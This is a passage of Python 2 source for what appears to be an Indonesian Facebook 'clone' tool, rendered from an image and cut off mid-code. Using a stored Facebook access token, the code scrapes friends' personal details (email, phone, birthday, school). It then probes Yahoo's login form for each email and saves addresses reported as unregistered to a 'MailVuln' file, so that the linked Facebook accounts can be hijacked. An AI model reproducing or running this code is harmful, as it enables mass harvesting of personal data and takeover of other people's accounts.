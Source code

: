43*"\033[1;96m=" try: print '\033[1;96m[➹] \033[1;93mNama\033[1;97m : '+z['name'] except KeyError: print '\033[1;96m[?] \033[1;93mNama\033[1;97m : \033[1;91mTidak ada' try: print '\033[1;96m[➹] \033[1;93mID\033[1;97m : '+z['id'] except KeyError: print '\033[1;96m[?] \033[1;93mID\033[1;97m : \033[1;91mTidak ada' try: print '\033[1;96m[➹] \033[1;93mEmail\033[1;97m : '+z['email'] except KeyError: print '\033[1;96m[?] \033[1;93mEmail\033[1;97m : \033[1;91mTidak ada' try: print '\033[1;96m[➹] \033[1;93mNo HP\033[1;97m : '+z['mobile_phone'] except KeyError: print '\033[1;96m[?] \033[1;93mNo HP\033[1;97m : \033[1;91mTidak ada' try: print '\033[1;96m[➹] \033[1;93mTempat tinggal\033[1;97m: '+z['location']['name'] except KeyError: print '\033[1;96m[?] \033[1;93mTempat tinggal\033[1;97m: \033[1;91mTidak ada' try: print '\033[1;96m[➹] \033[1;93mTanggal lahir\033[1;97m : '+z['birthday'] except KeyError: print '\033[1;96m[?] \033[1;93mTanggal lahir\033[1;97m : \033[1;91mTidak ada' try: print '\033[1;96m[➹] \033[1;93mSekolah\033[1;97m : ' for q in z['education']: try: print '\033[1;91m ~ \033[1;97m'+q['school']['name'] except KeyError: print '\033[1;91m ~ \033[1;91mTidak ada' except KeyError: pass raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]") menu() else: pass else: print"\033[1;96m[✖] \x1b[1;91mAkun tidak ditemukan" raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]") menu() def yahoo(): global toket os.system('clear') try: toket=open('login.txt','r').read() except IOError: print"\033[1;91m[!] Token invalid" os.system('rm -rf login.txt') time.sleep(1) keluar() os.system('clear') print logo print 42*"\033[1;96m=" print "\x1b[1;97m1.\x1b[1;93m Clone dari daftar teman" print "\x1b[1;97m2.\x1b[1;93m Clone dari teman" print "\x1b[1;97m3.\x1b[1;93m Clone dari member group" print "\x1b[1;97m4.\x1b[1;93m Clone dari file" print "\n\x1b[1;91m0.\x1b[1;91m Kembali" clone() def clone(): embuh = raw_input("\n\x1b[1;97m >>> ") if embuh =="": print "\033[1;96m[!] \x1b[1;91mIsi yang benar" elif embuh =="1": clone_dari_daftar_teman() elif embuh =="2": clone_dari_teman() elif embuh =="3": clone_dari_member_group() elif embuh =="4": clone_dari_file() elif embuh =="0": menu() else: print "\033[1;96m[!] \x1b[1;91mIsi yang benar" def clone_dari_daftar_teman(): global toket os.system('reset') try: toket=open('login.txt','r').read() except IOError: print"\033[1;91m[!] Token Invalid" os.system('rm -rf login.txt') time.sleep(1) keluar() try: os.mkdir('out') except OSError: pass os.system('clear') print logo mpsh = [] jml = 0 print 42*"\033[1;96m=" jalan('\033[1;96m[\x1b[1;97m✺\x1b[1;96m] \033[1;93mMengambil email \033[1;97m...') teman = requests.get('https://graph.facebook.com/me/friends?access_token='+toket) kimak = json.loads(teman.text) jalan('\033[1;96m[\x1b[1;97m✺\x1b[1;96m] \033[1;93mStart \033[1;97m...') print ('\x1b[1;96m[!] \x1b[1;93mStop CTRL+z') print 42*"\033[1;96m=" for w in kimak['data']: jml +=1 mpsh.append(jml) id = w['id'] nama = w['name'] links = requests.get("https://graph.facebook.com/"+id+"?access_token="+toket) z = json.loads(links.text) try: mail = z['email'] yahoo = re.compile(r'@.*') otw = yahoo.search(mail).group() if 'yahoo.com' in otw: br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com") br._factory.is_html = True br.select_form(nr=0) br["username"] = mail klik = br.submit().read() jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*') try: pek = jok.search(klik).group() except: continue if '"messages.ERROR_INVALID_USERNAME">' in pek: print("\033[1;96m[✓] \033[1;92mVULN") print("\033[1;96m[➹] \033[1;97mID \033[1;91m: \033[1;92m"+id) print("\033[1;96m[➹] \033[1;97mEmail\033[1;91m: \033[1;92m"+mail) print("\033[1;96m[➹] \033[1;97mNama \033[1;91m: \033[1;92m"+nama+ '\n') save = open('out/MailVuln.txt','a') save.write("Nama : "+ nama + '\n' "ID : "+ id + '\n' "Email : "+ mail + '\n\n') save.close() berhasil.append(mail) except KeyError: pass print 42*"\033[1;96m=" print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mSelesai \033[1;97m....' print"\033[1;96m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil)) print"\033[1;96m[+] \033[1;92mFile tersimpan \033[1;91m:\033[1;97m out/MailVuln.txt" raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]") menu() def clone_dari_teman(): global toket os.system('clear') try: toket=open('login.txt','r').read() except IOError: print"\033[1;96m[!] \x1b[1;91mToken invalid" os.system('rm -rf login.txt') time.sleep(1) keluar() try: os.mkdir('out') except OSError: pass os.system('clear') print logo mpsh = [] jml = 0 print 42*"\033[1;96m=" idt = raw_input("\033[1;96m[+] \033[1;93mMasukan ID teman \033[1;91m: \033[1;97m") try: jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket) op = json.loads(jok.text) print"\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;93mNama\033[1;91m :\033[1;97m "+op["name"] except KeyError: print"\033[1;96m[!] \x1b[1;91mTeman tidak ditemukan" raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]") menu() jalan('\033[1;96m[✺] \033[1;93mMengambil email \033[1;97m...') teman = requests.get('https://graph.facebook.com/'+idt+'/friends?access_token='+toket) kimak = json.loads(teman.text) jalan('\033[1;96m[✺] \033[1;93mStart \033[1;97m...') print('\x1b[1;96m[!] \x1b[1;93mStop CTRL+z') print 43*"\033[1;96m=" for w in kimak['data']: jml +=1 mpsh.append(jml) id = w['id'] nama = w['name'] links = requests.get("https://graph.facebook.com/"+id+"?access_token="+toket) z = json.loads(links.text) try: mail = z['email'] yahoo = re.compile(r'@.*') otw = yahoo.search(mail).group() if 'yahoo.com' in otw: br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com") br._factory.is_html = True br.select_form(nr=0) br["username"] = mail klik = br.submit().read() jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*') try: pek = jok.search(klik).group() except: continue if
